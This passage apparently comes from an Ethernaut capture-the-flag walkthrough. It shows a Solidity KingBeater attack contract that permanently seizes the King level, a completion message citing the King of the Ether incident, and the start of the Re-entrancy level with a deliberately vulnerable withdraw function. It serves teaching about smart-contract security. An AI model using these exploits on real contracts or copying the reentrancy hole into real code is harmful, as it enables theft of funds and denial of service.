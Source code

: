 This is possible if the address in the king variable is the address of a contract (not an external account), in which there is no payable fallback function.

In the KingBeater contract below we would first deploy it with some ether.

If we then call giveToKing, we cause the contracts balance to be sent to the fallback function on King, which will set KingBeater == King.


    contract KingBeater {
        
        function KingBeater() public payable {}
        
        function getBalance() public view returns (uint) {
            return this.balance;
        }
        
        function giveToKing(address theKing) public {
            theKing.call.gas(100000000).value(this.balance)("none", "King");
        }
    }

=========================

### Message on completion

Most of Ethernaut's levels try to expose (in an oversimpliefied form of course) something that actually happend. A real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem.

=========================

10. Re-entrancy

=========================

    pragma solidity ^0.4.18;

    contract Reentrance {

        mapping(address => uint) public balances;

        function donate(address _to) public payable {
            balances[_to] += msg.value;
        }

        function balanceOf(address _who) public constant returns (uint balance) {
            return balances[_who];
        }

        function withdraw(uint _amount) public {
            if(balances[msg.sender] >= _amount) {
                if(msg.sender.call.value(_amount)()) {
                    _amount;
                }
                balances[msg.sender] -= _amount;
            }
        }
